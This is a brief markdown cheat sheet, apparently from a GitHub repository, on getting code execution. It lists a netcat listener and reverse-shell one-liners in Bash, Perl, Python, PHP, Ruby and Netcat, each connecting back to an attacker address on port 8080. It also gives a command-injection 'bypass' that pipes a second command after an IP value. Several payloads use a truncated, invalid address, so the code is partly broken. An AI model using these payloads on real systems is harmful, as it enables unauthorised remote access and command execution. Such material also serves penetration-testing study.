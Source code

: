 # Code Execution

## Get a reverse-shell
### Attacker Listening
```cmd
nc -vv -l -p 8080
```

### Payloads
- BASH
```BASH
bash -i >& /dev/tcp/10.20.14.203/8080 0>&1
```
- PERL
```PERL
perl -e 'use Socket;$i="10.20.14";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
- Python
```Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
- PHP
```PHP
php -r '$sock=fsockopen("10.20.14",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```
- Ruby 
```Ruby
ruby -rsocket -e'f=TCPSocket.open("10.20.14",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
- Netcat 
```cmd
nc -e /bin/sh 10.20.14 8080
```

## Bypass
- Use ```|``` between two code
  - ```10.20.14.208 | pwd```
